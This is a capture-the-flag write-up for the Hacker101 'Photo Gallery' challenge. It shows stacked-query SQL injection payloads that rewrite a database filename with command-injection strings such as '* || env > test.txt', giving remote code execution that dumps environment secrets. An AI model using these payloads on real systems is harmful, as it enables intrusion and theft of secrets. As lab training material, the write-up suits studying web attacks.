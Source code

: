 # Photo Gallery - FLAG2

## 0x00 Space Used

![](../flag1/imgs/index.jpg)

We know there are images taking some of the spaces here, but the total space used are showing 0.

So as we already got the source code of the page, we can check how the space calculated in [line 39][1].

```python
rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
```

So here we can see the commands here.

```bash
du -ch filenames || exit 0
```

And we may change file name to inject with commands here.

## 0x01 Stacked Queries

As we have the table here

| id | title            | parent | filename           |
| -- | ---------------- | ------ | ------------------ |
| 1  | Utterly adorable | 1      | files/adorable.jpg |
| 2  | Purrfect         | 1      | files/purrfect.jpg |
| 3  | Invisible        | 1      | FLAG1              |

Try modify image title

```sql
id=1;UPDATE photos SET title='test' WHERE id=3;COMMIT;--
```

Successfully updated file title 3.

![](./imgs/filename.jpg)

## 0x02 Remote Code Execution

Now we can update **filename** to perform RCE.

```sql
id=1;UPDATE photos SET filename='* || ls > test.txt' WHERE id=3;COMMIT;--
```

Visit **INDEX** page to execute the command.

```sql
id=1 UNION SELECT 'test'--
```

Here we got **ls** results in file **test**

```
Dockerfile files main.py main.pyc prestart.sh requirements.txt test uwsgi.ini 
```

## 0x03 FLAG

```sql
id=1;UPDATE photos SET filename='* || env > test.txt' WHERE id=3;COMMIT;--
```

Visit **INDEX** page to execute the command.

```sql
id=1 UNION SELECT 'test'--
```

Here we got all 3 flags in one place.

![](./imgs/flag.jpg)

[1]: https://github.com/testerting/hacker101-ctf/blob/master/photo_gallery/flag0/main.py#L39
